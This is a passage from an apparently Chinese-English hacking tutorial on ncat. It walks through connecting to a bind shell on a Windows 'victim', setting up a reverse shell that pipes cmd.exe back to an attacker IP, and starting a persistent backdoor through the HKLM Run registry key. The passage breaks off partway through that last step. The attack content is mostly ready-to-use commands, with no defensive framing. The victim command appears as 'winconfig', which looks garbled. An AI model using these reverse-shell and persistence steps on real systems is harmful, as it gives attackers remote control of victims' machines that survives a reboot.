 在攻击者机器上：

```
ncat 192.168.102.152 5555
dir
cd Desktop
dir
ipconfig
```

现在如果受害者在内网，没有那么容易从互联网访问。对我们来说执行listener并连接到受害者会更加的困难。ncat可以通过执行反向连接（reverse connection）来克服这一限制。

### reverse shell
在前面的场景中，受害者运行监听器，在反向连接中，攻击者运行监听器，受害者从受保护的网络连接到攻击者的网络。

回到攻击者机器：

```
ncat -l -p 5555 -v
```

受害者：

```
winconfig -e cmd.exe 192.168.102.145 5555
```

攻击者：
```
Ncat: Connection from 192.168.102.152.
Ncat: Connection from 192.168.102.152:49158.

dir
ipconfig
```

### persistent backdoor
Now, we are going to create persistent backdoor with ncat. With persistent backdoor, we meaned we manage to install a process or service we started to boot the victim machine, and tie the connection to the attacker machine.

In this way, even the victim reboot the machine, the backdoor was still work.

To set persistent backdoor with ncat, we can do it by **adding nessary command key to victims' registry**.

攻击者机器：

```
ncat -l -p 5544 -v
```

受害者机器：
We have to add ncat command structure to the proper place in the registry.

`start->regedit`

打开Registry Editor，导航到`Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。
